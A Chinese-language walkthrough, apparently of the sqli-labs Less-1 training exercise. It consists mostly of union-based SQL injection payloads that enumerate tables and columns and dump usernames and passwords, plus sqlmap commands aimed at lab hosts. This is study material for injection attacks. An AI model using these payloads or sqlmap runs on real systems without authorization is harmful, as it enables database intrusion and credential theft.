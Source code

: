 查看所有数据库名

![image-20201110134351380](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110134351380.png)

查询security内的所有表名

```
?id=1' AND 1=2 union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security')--+
```

![image-20201110134659034](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110134659034.png)

暴列名

```
?id=1' AND 1=2 union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='users') --+
```

![image-20201110134848725](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110134848725.png)

爆用户名和密码

```
?id=1' AND 1=2 union select 1,(select group_concat(password) from security.users) ,(select group_concat(username) from security.users) --+
```

![image-20201110134954999](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110134954999.png)



sqlmap 

```
sqlmap.py -u "http://119.45.55.187/Less-1/?id=1"
```

![image-20201110140638528](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110140638528.png)

```
sqlmap.py -u "http://192.168.29.76/sqli-labs-master/Less-1/?id=1" --dbs
```

![image-20201110140714198](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110140714198.png)

```
sqlmap.py -u "http://119.45.55.187/Less-1/?id=1" -D security --tables
```

![image-20201110140954381](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110140954381.png)

```
sqlmap.py -u "http://119.45.55.187/Less-1/?id=1" -D security  -T users --columns
```

![image-20201110141155939](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110141155939.png)
